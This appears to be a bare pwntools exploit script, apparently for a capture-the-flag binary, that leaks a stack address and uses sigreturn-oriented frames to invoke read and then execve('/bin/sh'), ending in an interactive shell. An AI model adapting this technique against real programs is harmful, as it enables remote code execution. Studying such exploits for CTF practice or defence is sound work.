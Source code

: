 ```python3=


payload1 = p64(0x401000)+p64(0x401000)+p64(0x401000) # read -> write -> read

r.send(payload1)

time.sleep(0.5)

r.send(b'\x03')

leak_stack=u64(r.recv()[8:16])

print('leak libc: ',hex(leak_stack))

#leak stack addr

start=0x401000
syscall=0x40100e

read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = leak_stack
read.rdx = 0x400
read.rsp = leak_stack
read.rip = syscall

payload2=(p64(start)+p64(syscall)+bytes(read))

r.send(payload2)

time.sleep(0.5)

r.send(payload2[8:23])

#call signal.read

execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = leak_stack+ 0x108 # /bin/sh的偏移
execve.rsi = 0x0
execve.rdx = 0x0
execve.rsp = leak_stack 
execve.rip = syscall

payload3=p64(start)+p64(syscall)+bytes(execve)+b'/bin/sh\x00'
print(len(payload3))

time.sleep(0.5)

r.send(payload3)

time.sleep(0.5)

r.send(payload3[8:23])

#call signal.execve

r.interactive()

```
